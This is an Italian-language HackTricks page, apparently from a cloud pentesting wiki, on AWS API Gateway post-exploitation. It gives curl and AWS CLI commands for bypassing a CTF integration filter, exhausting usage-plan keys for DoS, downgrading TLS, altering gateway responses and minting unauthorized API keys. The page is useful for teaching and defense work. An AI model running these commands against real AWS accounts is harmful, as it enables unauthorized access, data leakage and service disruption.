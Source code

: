 # AWS - API Gateway Post Exploitation

{% hint style="success" %}
Impara e pratica AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repository su github.

</details>
{% endhint %}

## API Gateway

Per maggiori informazioni controlla:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Accesso a API non esposte

Puoi creare un endpoint in [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) con il servizio `com.amazonaws.us-east-1.execute-api`, esporre l'endpoint in una rete a cui hai accesso (potenzialmente tramite una macchina EC2) e assegnare un gruppo di sicurezza che consente tutte le connessioni.\
Quindi, dalla macchina EC2 sarai in grado di accedere all'endpoint e quindi chiamare l'API del gateway che non era stata esposta prima.

### Bypass del passthrough del corpo della richiesta

Questa tecnica è stata trovata in [**questo writeup CTF**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp).

Come indicato nella [**documentazione AWS**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) nella sezione `PassthroughBehavior`, per impostazione predefinita, il valore **`WHEN_NO_MATCH`**, quando si controlla l'header **Content-Type** della richiesta, passerà la richiesta al back end senza trasformazione.

Pertanto, nel CTF l'API Gateway aveva un template di integrazione che **impediva l'esfiltrazione della flag** in una risposta quando veniva inviata una richiesta con `Content-Type: application/json`:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

Tuttavia, inviare una richiesta con **`Content-type: text/json`** impedirebbe quel filtro.&#x20;

Infine, poiché l'API Gateway consentiva solo `Get` e `Options`, era possibile inviare una query arbitraria a dynamoDB senza alcun limite inviando una richiesta POST con la query nel corpo e utilizzando l'intestazione `X-HTTP-Method-Override: GET`:

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Usage Plans DoS

Nella sezione **Enumeration** puoi vedere come **ottenere il piano di utilizzo** delle chiavi. Se hai la chiave ed è **limitata** a X utilizzi **al mese**, potresti **semplicemente usarla e causare un DoS**.

L'**API Key** deve solo essere **inclusa** all'interno di un **header HTTP** chiamato **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

Un attaccante con i permessi `apigateway:UpdateGatewayResponse` e `apigateway:CreateDeployment` può **modificare una risposta del Gateway esistente per includere header personalizzati o template di risposta che trapelano informazioni sensibili o eseguono script dannosi**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impatto Potenziale**: Perdita di informazioni sensibili, esecuzione di script dannosi o accesso non autorizzato alle risorse API.

{% hint style="info" %}
Necessita di test
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Un attaccante con i permessi `apigateway:UpdateStage` e `apigateway:CreateDeployment` può **modificare uno stage esistente di API Gateway per reindirizzare il traffico a un altro stage o cambiare le impostazioni di caching per ottenere accesso non autorizzato ai dati memorizzati nella cache**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impatto Potenziale**: Accesso non autorizzato ai dati memorizzati nella cache, interruzione o intercettazione del traffico API.

{% hint style="info" %}
Necessita di test
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

Un attaccante con i permessi `apigateway:PutMethodResponse` e `apigateway:CreateDeployment` può **modificare la risposta del metodo di un metodo API Gateway REST API esistente per includere intestazioni personalizzate o modelli di risposta che trapelano informazioni sensibili o eseguono script dannosi**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potenziale Impatto**: Perdita di informazioni sensibili, esecuzione di script dannosi o accesso non autorizzato alle risorse API.

{% hint style="info" %}
Necessario testare
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Un attaccante con i permessi `apigateway:UpdateRestApi` e `apigateway:CreateDeployment` può **modificare le impostazioni dell'API Gateway REST API per disabilitare il logging o cambiare la versione minima di TLS, potenzialmente indebolendo la sicurezza dell'API**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Impatto Potenziale**: Indebolimento della sicurezza dell'API, potenzialmente consentendo l'accesso non autorizzato o l'esposizione di informazioni sensibili.

{% hint style="info" %}
Necessario testare
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Un attaccante con i permessi `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, e `apigateway:CreateUsagePlanKey` può **creare nuove chiavi API, associarle a piani di utilizzo e poi usare queste chiavi per accedere non autorizzato alle API**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Impatto Potenziale**: Accesso non autorizzato alle risorse API, bypassando i controlli di sicurezza.

{% hint style="info" %}
Necessita di test
{% endhint %}

{% hint style="success" %}
Impara e pratica AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}
